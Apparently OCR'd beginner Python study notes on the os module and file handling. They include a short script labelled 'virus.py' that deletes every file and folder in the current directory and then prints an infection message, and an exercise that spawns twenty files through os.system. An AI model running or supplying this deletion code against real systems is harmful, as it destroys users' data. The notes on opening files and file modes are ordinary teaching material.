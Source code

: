           - access
          - add_dll_directory
          - altsep
          - chmod
          - close

```python
import os

files=[]
folders=[]

for fil in os.listdir():
   if fil != "virus.py": 
       if os.path.isfile(fil):
           files.append(fil)
       else :
            folders.append(fil)
   else :
       pass

for i in files:
    os.remove(i)
for j in folders:
    os.removedirs(j)

```

print("YOUR SYSTEM IS INFECTED BY VIRUS YOUR FILES ARE GONNNNE!")

==!!! Sure to do them on the appropriate folder==
==when we run this virus......BOOM==


**exercise**
Write a virus that creates 20 files with name virus_1 virus_2… a. Use os.system(“your shell code”) => you can use f” { variable }” as the print function

```python
import os
for i in range(1,21):
     os.system(f"touch virus_{i}")
print("files created")
```




## File Handling in python 
- Files are **names locations** ***on disk to* store related information.** 
- Files Used to **Store Data in Storage Devices.** 
- When we want to read from or write to a file, 
     - we need to open it. 
     - And also when we are done we will close it. 
- In Python ,a File Operation takes place in the following order: 
     - Open a File 
     - Read or Write(perform operation) 
     - Close the file
- Python has a built-in function called open(). 
- Syntax: 
    - ==with open(“fileName or filePath”,’x’) as var ==
          ==var.write("hello there")==
- Modes: 
     - write---------------------------------w 
     - read---------------------------------r 
     - append---------------------------a 
     - Create----------------------------- x 
     - text mode-------------------------t 